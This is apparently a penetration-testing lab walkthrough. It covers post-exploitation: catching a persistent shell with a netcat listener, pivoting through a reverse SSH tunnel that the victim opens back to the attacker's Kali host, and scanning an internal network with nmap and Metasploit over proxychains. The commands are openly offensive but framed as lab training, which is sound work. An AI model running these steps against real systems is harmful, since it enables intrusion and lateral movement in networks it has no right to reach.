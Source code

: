 # Changing Targets VICTIM 2

## Introduction



Here You will find techniques PERSISTENT SHELL, PIVIOT, AND PING SWEEP.



## Step 1: CATCH PERSISTENT SHELL



### (ATTACKER)



```bash
nc -lvp 55556
```
**REMEMBER TO UPGRADE YOUR SHELL**


## Step 2: PIVOT

### (ATTACKER)


```bash
 netstat -natp
```
```
netstat -natp | grep LISTEN
```

**AFTER CATCHING PERSISTENT SHELL (USE YOUR SSH PORT) OPEN SSH FOR LISTNER TO SET UP PROXY**


```bash
sudo systemctl status ssh.service
```
```
sudo systemctl start ssh.service
```


### (VICTIM)
```bash
 ssh -N -f -R 127.0.0.1:9080 kali@192.168.122.209 -p 55555
```


**MAKE SURE PORT FWD RULE IS GOOD ON PFSENSE SSH PORT 22
if it states port fowarding failed it means you alrady have ypur proxy open
(VICTIM) should be promted a password**



## Step 3: PING SWEEP


**NOTE: YOUR DIRECTORIES MAY VARY COMPARED TO MY EXAMPLE DEPENDING HOW AND WHERE YOUR SCOPE FILE IS ON KALI**



### (ATTACKER)
```bash
 ls
```
```
cd internal
```

**SHOULD SEE IP'S PING SWEEPS AND TARGETS**


```
ls
```
```
cd 192.168.1.102 
```
SOC 4 IP

```
sudo proxychains nmap -iL scope -F -Pn -sT | tee fast_scan
```

**USE A THIRD TERMINAL**

```bash
sudo proxychains msfconsole 
```
[1:24:44]

*** continued... at [ 2 Metasploit via Proxychains & PrivEsc Automation w linPEAS ]
